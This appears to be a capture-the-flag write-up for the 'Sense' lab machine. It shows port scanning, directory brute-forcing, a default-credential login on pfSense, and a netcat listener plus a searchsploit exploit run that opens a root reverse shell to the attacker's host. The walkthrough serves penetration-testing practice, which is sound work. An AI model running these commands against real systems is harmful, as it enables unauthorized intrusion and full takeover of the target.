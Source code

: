 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)

![alt text](./img/sense00.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p 1-65535 10.10.10.60 -e tun0 --rate=1000  
![alt text](./img/sense01.PNG?raw=true)  

nmap -A -sC -v -p 80,443 10.10.10.60  
![alt text](./img/sense02.PNG?raw=true)  

gobuster dir -u https://10.10.10.60 -w ~/wordlists/big.txt -t 100 -e -k -x php,html,aspx,txt,xml  
![alt text](./img/sense03.PNG?raw=true)  

Ok, we can notice that almost all the findings on gobuster with the status 200 have almost the same size 6690, if you access them it will be redirected to the login page. And the links with the status 301 are MOVED, so let’s try the other links

https://10.10.10.60/changelog.txt  
![alt text](./img/sense04.PNG?raw=true)  

So we have 1 vulnerability that wasn’t patched yet…. let’s continue

https://10.10.10.60/index.html  
![alt text](./img/sense05.PNG?raw=true)  

Hummm a different page, let’s check the source  
![alt text](./img/sense06.PNG?raw=true)  

We found information about a connection via ssh (what is strange since the port is not opened) with an applet  

After some research I found some interesting websites, however none of them helped. And here is where I got stuck…...so I returned to enumeration with a bigger wordlist to gobuster  

gobuster dir -u https://10.10.10.60 -w ~/wordlists/directory-list-2.3-medium.txt -t 100 -e -k -x php,html,aspx,txt,xml  
![alt text](./img/sense07.PNG?raw=true)  

This system-users.txt looks suspicious, let’s check it out  
![alt text](./img/sense08.PNG?raw=true)  

Now we have the USERNAME, since the password is “company defaults” and we are using pfsense, maybe the password is the default “pfsense”  
So let’s try with the credentials rohit:pfsense  
![alt text](./img/sense09.PNG?raw=true)  

## Exploit

So, since we are running pfsense 2.1.3 let’s see if we find a exploit to it  
searchsploit pfsense 2.1.3  
![alt text](./img/sense10.PNG?raw=true)  

searchsploit -x php/webapps/43560.py  
![alt text](./img/sense11.PNG?raw=true)  

Reading the exploit we notice it will get a CSRF token and run a python reverse shell. To work we need give some arguments (--rhost, --lhost, --lport, --username, --password).....very similar to metasploit

So let’s start our netcat listener and run the command  
- nc -nvlp 1234  
- python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 1234 --username rohit --password pfsense  

![alt text](./img/sense12.PNG?raw=true)  

![alt text](./img/sense13.PNG?raw=true)  

HABEMUS SHELL \o/

Since we are root just grab the flags  
![alt text](./img/sense14.PNG?raw=true)  
